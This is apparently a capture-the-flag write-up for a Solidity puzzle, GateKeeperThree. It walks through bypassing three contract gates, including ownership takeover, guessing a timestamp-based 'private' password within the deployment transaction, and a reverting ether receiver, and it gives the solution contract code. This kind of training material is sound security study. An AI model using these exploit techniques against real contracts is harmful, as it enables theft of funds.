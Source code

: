 # Gates all around, fluff to confuse you

Much of the code in this one is just to confuse you. The trick is to not lose your focus away from what's valid.

`gateOne` makes sure that you interact through a contract, nothing more.

```solidity
 modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }
```

`gateTwo` is a tad bit more tricky.

```solidity
modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }
```

This logic is divided between the two contracts.

**GateKeeperThree.sol**

```solidity

modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }
```

**SimpleTrick.sol**

```solidity

uint256 private password = block.timestamp;

function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }
```

So you'll have to pass in the correct `password` to set `allowEntrance` to `true`, and private variable `password` is set to `block.timestamp` at SimpleTrick's deployment.

You can read the storage slot using `cast storage` to get the password, but that's an additional work and you're lazy. Might as well do `getAllowance` in the same transaction in which `SimpleTrick` is deployed since you're writing a contract anyway.

`gateThree` makes sure the you've sent some `eth` to `GateKeeperThree` and that you `revert` when someone sends some `eth` to you.

```solidity
 modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }
```

So you get ready to enter. All the work is always about getting ready to enter.

```solidity
function setUpStuff() public payable {
        //become owner
        gateKeeper.construct0r();
        //deploy SimpleTrick
        gateKeeper.createTrick();
        //set allowEntrance to true in GateKeeperThree by passing the password,
        //which would be the block.timestamp since it's the same transaction as deployment
        gateKeeper.getAllowance(block.timestamp);
        // send 0.001 or more ether to GateKeeperThree
        payable(address(gateKeeper)).transfer(msg.value);
    }
```

And that's it. All that's left to do is enter.

The Gates of Valhalla shall open up and receive you in all its glory! Witness!!!

